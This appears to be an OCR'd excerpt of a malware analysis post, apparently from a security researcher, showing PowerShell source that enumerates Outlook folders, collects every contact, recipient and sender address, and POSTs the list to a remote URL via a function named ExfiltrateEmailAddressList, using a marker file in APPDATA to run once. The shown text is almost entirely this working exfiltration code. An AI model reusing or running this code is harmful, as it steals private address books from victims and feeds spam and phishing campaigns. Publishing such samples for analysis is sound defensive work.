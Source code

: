 ```
  }
}

function GetContactFromEmails($OutlookFolders) {
  for($i = 1; $i -le $OutlookFolders.Count; $i++) {
    $OutlookFolder = $OutlookFolders.Item($i)
    $OutlookFolderItems = $OutlookFolder.Items
    for($j = 1; $j -le $OutlookFolderItems.Count; $j++) {
      $Item = $OutlookFolderItems.Item($j)
      $Recipients = $Item.Recipients
      for($k = 1; $k -le $Recipients.Count; $k++) {
        $Recipient = $Recipients.Item($k)
        $RecipientAddress = $Recipient.AddressEntry
        $RecipientUserType = $RecipientAddress.AddressEntryUserType
        $NewAddress = "";
        if ($RecipientUserType -eq 0) {
          $NewAddress = $RecipientAddress.GetExchangeUser().PrimarySmtpAddress
        } elseif (($RecipientUserType -eq 30) -Or ($RecipientUserType -eq 10)) {
          $NewAddress = $RecipientAddress.Address
        }
        AddAddressInGlobalList($NewAddress)
      }
      $ItemSender = $OutlookFolderItem.Sender
      $RecipientUserType = $ItemSender.AddressEntryUserType
      $NewAddress = "";
      if ($RecipientUserType -eq 0) {
        $NewAddress = $ItemSender.GetExchangeUser().PrimarySmtpAddress
      } elseif (($RecipientUserType -eq 30) -Or ($RecipientUserType -eq 10)) {
        $NewAddress = $ItemSender.Address
      }
      AddAddressInGlobalList($NewAddress)
    }
    GetContactFromEmails($OutlookFolder.Folders)
  }
}

function ExfiltrateEmailAddressList() {
  GetOutlookContactlList
  GetContactFromEmails($OutlookAppMAPI.Folders)
  $FreeOutlookAppObj = [System.Runtime.Interopservices.Marshal]::ReleaseComObject($OutlookApp)
  $WebRequest = [System.Net.WebRequest]::Create($urlPL)
  $GlobalListStr = [System.Text.Encoding]::UTF8.GetBytes("list=$($GlobalList -join ';')")
  $WebRequest.Method = 'POST'
  $WebRequest.ContentType = 'application/x-www-form-urlencoded'
  $WebRequest.ContentLength = $GlobalListStr.length
  $RequestStream = $WebRequest.GetRequestStream()
  $RequestStream.Write($GlobalListStr, 0, $GlobalListStr.length)
  $RequestStream.Close()
  [System.Net.WebResponse] $WebResponse = $WebRequest.GetResponse()
}

function Main() {
  $OutlookPath = $ExecutionContext.InvokeCommand.ExpandString('$env:APPDATA\Microsoft\.Outlook')
  $ExistsOutlookFolder = [System.IO.File]::Exists($OutlookPath)
  if (-Not $ExistsOutlookFolder) {
    "" | sc $OutlookPath
    ExfiltrateEmailAddressList()
  }
}

Main
```


[^1]: Caso tenha alguma correção ou informação adicional, pode me enviar em cpuodzius@fireshellsecurity.team que farei as devidas alterações no post.